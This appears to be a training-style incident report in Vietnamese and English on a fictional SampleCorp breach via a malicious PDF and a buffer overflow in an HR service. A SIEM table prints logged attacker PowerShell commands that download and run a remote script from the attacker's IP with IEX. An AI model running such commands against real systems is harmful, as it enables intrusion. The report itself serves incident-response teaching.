# Real-world Incident Report (Báo cáo sự cố thực tế)

## Executive Summary (Tóm tắt dành cho lãnh đạo)

- **`Incident ID`**: INC2019-0422-022

- **`Incident Severity`**: High (P2)

- **`Incident Status`**: Resolved (đã giải quyết)

- **`Incident Overview`**: Vào đêm `April 22, 2019`, đúng lúc `01:05:00`, Security Operations Center (SOC) của SampleCorp đã phát hiện hoạt động trái phép bên trong mạng nội bộ, cụ thể là thông qua việc khởi tạo process bất thường và các lệnh PowerShell trông đáng ngờ. Lợi dụng việc thiếu các biện pháp kiểm soát truy cập mạng (network access control) chặt chẽ cùng hai lỗ hổng bảo mật, thực thể trái phép đã giành được quyền kiểm soát thành công các node sau trong hạ tầng của SampleCorp:
	- `WKST01.samplecorp.com`: Một hệ thống dùng cho mục đích phát triển phần mềm.
	- `HR01.samplecorp.com`: Một hệ thống dùng để xử lý dữ liệu nhân viên và đối tác.

	SOC của SampleCorp, phối hợp với các đơn vị Digital Forensics and Incident Response (DFIR), đã ngăn chặn (contain) thành công mối đe doạ, loại bỏ cả phần mềm độc hại được đưa vào lẫn các lỗ hổng bảo mật hiện có, và cuối cùng khôi phục các hệ thống bị xâm phạm về trạng thái ban đầu.

- **`Key Findings`**: Do các biện pháp kiểm soát truy cập mạng không đầy đủ, thực thể trái phép đã được cấp một địa chỉ IP nội bộ chỉ bằng cách cắm máy tính của họ vào một cổng Ethernet trong văn phòng của SampleCorp. Quá trình điều tra cho thấy thực thể trái phép ban đầu đã xâm phạm `WKST01.samplecorp.com` bằng cách khai thác một phiên bản `Acrobat Reader` có lỗ hổng. Ngoài ra, thực thể này đã khai thác một `buffer overflow vulnerability`, lần này nằm trong một ứng dụng độc quyền do SampleCorp phát triển, để thâm nhập sâu hơn vào mạng nội bộ. Dù không phát hiện việc tuồn dữ liệu ra ngoài (data exfiltration) trên diện rộng — nhiều khả năng nhờ sự can thiệp nhanh chóng của các đội SOC và DFIR — việc truy cập trái phép vào cả `WKST01.samplecorp.com` lẫn `HR01.samplecorp.com` vẫn làm dấy lên lo ngại. Do đó, cả dữ liệu của công ty và của khách hàng nên được xem là có khả năng đã bị xâm phạm ở một mức độ nào đó.

- **`Immediate Actions`**: Các đội SOC và DFIR của SampleCorp đã tự mình quản lý toàn bộ quy trình ứng phó sự cố, không có sự tham gia của bất kỳ nhà cung cấp dịch vụ bên ngoài nào. Hành động tức thời đã được thực hiện để cô lập các hệ thống bị xâm phạm khỏi mạng bằng cách sử dụng phân đoạn VLAN (VLAN segmentation). Để phục vụ một cuộc điều tra toàn diện, các đội SOC và DFIR đã thu thập lượng lớn dữ liệu. Việc này bao gồm cả việc truy cập các file bắt gói tin (network traffic capture). Ngoài ra, tất cả các hệ thống bị ảnh hưởng đều được gắn vào một giải pháp bảo mật host (host security solution). Còn về event log, chúng được thu thập tự động bởi giải pháp Elastic SIEM hiện có.

- **`Stakeholder Impact`**: 
	- `Customers`: Dù không xác định được việc tuồn dữ liệu ra ngoài trên diện rộng, việc truy cập trái phép vào cả `WKST01.samplecorp.com` lẫn `HR01.samplecorp.com` làm dấy lên lo ngại về tính toàn vẹn và tính bảo mật của dữ liệu khách hàng. Như một biện pháp phòng ngừa, một số dịch vụ đã tạm thời bị đưa offline và một số API key đã bị thu hồi, dẫn đến các khoảng thời gian gián đoạn (downtime) ngắn cho khách hàng. Hệ quả tài chính của việc gián đoạn này hiện đang được đánh giá, nhưng có thể dẫn đến mất doanh thu và mất lòng tin của khách hàng.
	- `Employees`: Các hệ thống bị xâm phạm bao gồm `HR01.samplecorp.com`, nơi thường lưu trữ thông tin nhạy cảm của nhân viên. Dù chúng tôi không có bằng chứng cho thấy dữ liệu nhân viên bị nhắm tới hoặc bị trích xuất một cách cụ thể, rủi ro tiềm tàng vẫn còn đó. Nhân viên có thể trở thành nạn nhân của đánh cắp danh tính hoặc các cuộc tấn công phishing nếu dữ liệu của họ bị xâm phạm.
	- `Business Partners`: Vì `WKST01.samplecorp.com`, một môi trường phát triển, nằm trong số các hệ thống bị xâm phạm, có khả năng mã nguồn hoặc công nghệ độc quyền đã bị lộ. Điều này có thể gây hệ luỵ cho các đối tác kinh doanh vốn dựa vào tính toàn vẹn và tính độc quyền của các giải pháp công nghệ của SampleCorp.
	- `Regulatory Bodies`: Việc các hệ thống bị xâm phạm có thể kéo theo hệ quả về mặt tuân thủ. Các cơ quan quản lý có thể áp đặt các khoản phạt hoặc chế tài lên SampleCorp vì đã không bảo vệ đầy đủ dữ liệu nhạy cảm, tuỳ thuộc vào khu vực pháp lý và bản chất của dữ liệu bị xâm phạm.
	- `Internal Teams`: Các đội SOC và DFIR đã ngăn chặn mối đe doạ một cách hiệu quả, nhưng sự cố nhiều khả năng sẽ đòi hỏi phải rà soát và có thể phải đại tu các biện pháp bảo mật hiện tại. Điều này có thể đồng nghĩa với việc phân bổ lại nguồn lực và điều chỉnh ngân sách, ảnh hưởng đến các phòng ban và dự án khác.
	- `Shareholders`: Sự cố có thể gây tác động tiêu cực ngắn hạn lên giá cổ phiếu do nguy cơ mất lòng tin của khách hàng và các khoản phạt theo quy định có thể xảy ra. Tác động dài hạn sẽ phụ thuộc vào hiệu quả của các hành động khắc phục đã thực hiện và khả năng của công ty trong việc khôi phục niềm tin của các bên liên quan.

## Technical Analysis (Phân tích kỹ thuật)

#### Các hệ thống & dữ liệu bị ảnh hưởng

Do các biện pháp kiểm soát truy cập mạng không đầy đủ, thực thể trái phép đã được cấp một địa chỉ IP nội bộ chỉ bằng cách cắm máy tính của họ vào một cổng Ethernet trong văn phòng của SampleCorp.

Thực thể trái phép đã giành được quyền kiểm soát thành công các node sau trong hạ tầng của SampleCorp:

- `WKST01.samplecorp.com`: Đây là một môi trường phát triển chứa mã nguồn độc quyền cho các bản phát hành phần mềm sắp tới, cũng như các API key cho các dịch vụ bên thứ ba. Thực thể trái phép đã duyệt qua nhiều thư mục khác nhau, làm dấy lên lo ngại về việc đánh cắp tài sản trí tuệ và khả năng lạm dụng API key.
- `HR01.samplecorp.com`: Đây là hệ thống Nhân sự (Human Resources) lưu trữ dữ liệu nhạy cảm của nhân viên và đối tác, bao gồm thông tin định danh cá nhân, chi tiết bảng lương và các bản đánh giá hiệu suất. Log của chúng tôi cho thấy thực thể trái phép đã giành được quyền truy cập vào hệ thống này. Đáng lo ngại nhất là một cơ sở dữ liệu không được mã hoá chứa số An sinh xã hội (Social Security number) và thông tin tài khoản ngân hàng của nhân viên đã bị truy cập. Dù chúng tôi không có bằng chứng cho thấy dữ liệu đã bị trích xuất, rủi ro tiềm tàng về đánh cắp danh tính và gian lận tài chính đối với nhân viên là cao.

#### Nguồn bằng chứng & phân tích

**WKST01.samplecorp.com**

Vào đêm `April 22, 2019`, đúng lúc `01:05:00`, Security Operations Center (SOC) của SampleCorp đã xác định được hoạt động trái phép bên trong mạng nội bộ. Hoạt động này được phát hiện thông qua các quan hệ process cha-con (parent-child) bất thường và các lệnh PowerShell đáng ngờ, như thể hiện trong ảnh chụp màn hình dưới đây.

Từ log, PowerShell đã được gọi từ `cmd.exe` để thực thi nội dung của một script được lưu trữ từ xa. Địa chỉ IP của remote host là một địa chỉ nội bộ, `192.168.220.66`, cho thấy một thực thể trái phép đã hiện diện sẵn bên trong mạng nội bộ.



Những dấu hiệu sớm nhất của việc thực thi lệnh độc hại chỉ ra rằng `WKST01.samplecorp.com` đã bị xâm phạm, nhiều khả năng là do một file đính kèm email độc hại với một file đáng ngờ tên là `cv.pdf`, vì các lý do sau:

- Người dùng đã truy cập email client `Mozilla Thunderbird`
- Một file đáng ngờ `cv.pdf` đã được mở bằng Adobe Reader 10.0, phiên bản đã lỗi thời và tồn tại các lỗ hổng bảo mật.
- Các lệnh độc hại được ghi nhận ngay sau các sự kiện này.



Ngoài ra, `cmd.exe` và `powershell.exe` đã được sinh ra (spawn) từ `wmiprvse.exe`. 





Như đã đề cập, thực thể trái phép sau đó đã thực thi các lệnh PowerShell cụ thể.



**Phân tích nhanh về 192.168.220.66**

Từ log, chúng tôi xác định được bốn host trên phân đoạn mạng với địa chỉ IP và hostname tương ứng. Host `192.168.220.66`, vốn đã được quan sát trước đó trong log của `WKST01.samplecorp.com`, xác nhận sự hiện diện của một thực thể trái phép trong mạng nội bộ.

|IP|Hostname|
|-------|-------|
|192.168.220.20|DC01.samplecorp.com|
|192.168.220.200|WKST01.samplecorp.com|
|192.168.220.101|HR01.samplecorp.com|
|192.168.220.202|ENG01.samplecorp.com|

Bảng dưới đây là kết quả của một SIEM query nhằm xác định mọi trường hợp thực thi lệnh được khởi tạo từ `192.168.220.66`, dựa trên dữ liệu từ `WKST01.samplecorp.com`.

|event_data.CommandLine.keyword: Descending|beat.hostname.keyword: Descending|Count|
|-------|-------|-------|
|`cmd.exe /Q /c cd 1> \\127.0.0.1\ADMIN$\__1555864304.02 2>&1`|WKST01|5|
|`cmd.exe /Q /c dir 1> \\127.0.0.1\ADMIN$\__1555864304.02 2>&1`|WKST01|4|
|`powershell.exe -nop -w hidden -c $c=new-object net.webclient;$c.proxy=[Net.WebRequest]::GetSystemWebProxy();$c.Proxy.Credentials=[Net.CredentialCache]::DefaultCredentials;IEX`|WKST01|2|
|`whoami`|WKST01|1|
|`...`|...|...|
|`powershell IEX (New-Object Net.WebClient).DownloadString('http://192.168.220.66/test.php'); $m = Get-ModifiableService; $m`|HR01|1|

Kết quả cho thấy thực thể trái phép đã xâm nhập thành công vào các host: `WKST01.samplecorp.com` và `HR01.samplecorp.com`.

**HR01.samplecorp.com**

Tiếp theo, `HR01.samplecorp.com` được điều tra, vì thực thể trái phép `192.168.220.66` được ghi nhận đã thiết lập kết nối với `HR01.samplecorp.com` ngay từ thời điểm sớm nhất có thể trong file packet capture.



Chi tiết lưu lượng mạng cho thấy một nỗ lực buffer overflow nhắm vào dịch vụ đang chạy ở cổng `31337` của `HR01.samplecorp.com`. 



Lưu lượng mạng đã được export dưới dạng raw binary để phân tích thêm. 



File binary trích xuất được đã được phân tích trong một shellcode debugger là `scdbg`.

`Scdbg` cho thấy shellcode sẽ cố gắng khởi tạo một kết nối tới `192.168.220.66` ở cổng `4444`. Điều này xác nhận đã có một nỗ lực khai thác dịch vụ đang chạy ở cổng `31337` của `HR01.samplecorp.com`.



Một cuộc tìm kiếm các kết nối mạng giữa `HR01.samplecorp.com` và thực thể trái phép đã được thực hiện bằng file traffic capture nói trên. Kết quả cho thấy có các kết nối ngược về thực thể trái phép ở cổng `4444`. Điều này chỉ ra rằng thực thể trái phép đã khai thác thành công một lỗ hổng buffer overflow để giành quyền thực thi lệnh trên `HR01.samplecorp.com`.



    

				 
Độ sâu của phân tích kỹ thuật có thể được điều chỉnh để đảm bảo tất cả các bên liên quan đều được thông tin đầy đủ về sự cố và các hành động đã thực hiện để ứng phó. Dù trong module này chúng tôi chọn trình bày ngắn gọn các chi tiết điều tra để tránh làm bạn bị quá tải, điều quan trọng cần lưu ý là trong tình huống thực tế, mọi khẳng định hay nhận định đều phải được củng cố bằng bằng chứng vững chắc. 

    

#### Indicators of Compromise (IoCs – dấu hiệu xâm phạm)

- **`C2 IP`**: 192.168.220.66
- **`cv.pdf`** (SHA256): ef59d7038cfd565fd65bae12588810d5361df938244ebad33b71882dcf683011

#### Root Cause Analysis (Phân tích nguyên nhân gốc rễ)

Các biện pháp kiểm soát truy cập mạng không đầy đủ đã cho phép thực thể trái phép truy cập vào mạng nội bộ của SampleCorp.

Các tác nhân chính gây ra sự cố được truy ngược về hai lỗ hổng nghiêm trọng. Lỗ hổng thứ nhất xuất phát từ việc tiếp tục sử dụng một phiên bản Acrobat Reader đã lỗi thời, còn lỗ hổng thứ hai là do một vấn đề buffer overflow tồn tại trong một ứng dụng độc quyền. Làm trầm trọng thêm các lỗ hổng này là việc phân tách mạng (network segregation) không đầy đủ cho các hệ thống quan trọng, khiến chúng bị phơi bày nhiều hơn và trở thành mục tiêu dễ dàng hơn cho các mối đe doạ tiềm tàng. Ngoài ra, còn có một lỗ hổng đáng kể về nhận thức của người dùng, thể hiện rõ qua việc không có chương trình đào tạo toàn diện về phòng chống các chiêu thức phishing — thứ có thể đã là điểm xâm nhập ban đầu của những kẻ tấn công.

#### Technical Timeline (Dòng thời gian kỹ thuật)

- Initial Compromise (xâm nhập ban đầu)
	- `April 22nd, 2019, 00:27:27`: Một nhân viên đã mở một tài liệu PDF độc hại (`cv.pdf`) trên `WKST01.samplecorp.com`, tài liệu này đã khai thác một lỗ hổng đã biết trong một phiên bản `Acrobat Reader` lỗi thời. Điều này dẫn đến việc thực thi một payload độc hại, giúp thiết lập chỗ đứng ban đầu (initial foothold) trên hệ thống.
- Lateral Movement (di chuyển ngang)
	- `April 22nd, 2019, 00:50:18`: Thực thể trái phép đã tận dụng quyền truy cập ban đầu để thực hiện trinh sát (reconnaissance) mạng nội bộ. Họ phát hiện một lỗ hổng `buffer overflow` trong một ứng dụng HR độc quyền đang chạy trên `HR01.samplecorp.com`. Bằng một payload được chế tạo riêng, họ đã khai thác lỗ hổng này để giành quyền truy cập trái phép vào hệ thống HR.
- Data Access & Exfiltration (truy cập & tuồn dữ liệu ra ngoài)
	- `April 22nd, 2019, 00:35:09`: Thực thể trái phép đã truy cập nhiều thư mục khác nhau trên `WKST01.samplecorp.com` chứa cả mã nguồn độc quyền lẫn các API key.
